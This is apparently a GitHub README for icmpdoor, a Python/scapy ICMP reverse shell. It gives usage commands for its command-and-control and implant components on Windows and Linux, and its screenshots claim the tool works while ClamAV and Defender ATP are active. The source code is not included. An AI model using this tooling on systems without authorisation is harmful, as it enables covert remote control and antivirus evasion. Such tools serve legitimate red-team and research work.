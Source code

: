 # icmpdoor - ICMP Reverse Shell
icmpdoor is an ICMP rev shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

[Read this article for more information.](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
